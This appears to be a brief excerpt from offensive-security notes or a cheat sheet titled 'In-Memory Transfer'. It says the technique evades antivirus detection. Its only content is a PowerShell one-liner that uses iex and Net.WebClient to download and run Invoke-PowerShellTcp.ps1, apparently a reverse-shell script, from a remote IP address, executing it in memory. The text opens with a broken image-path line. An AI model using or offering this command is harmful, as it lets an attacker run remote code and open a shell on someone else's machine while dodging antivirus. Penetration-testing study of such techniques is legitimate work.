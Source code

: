 # In-Memory Transfer

allows us to be not detected by Anti Virus, can be done in PowerShell very easily.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.21.156.104:8000/Invoke-PowerShellTcp.ps1');
```
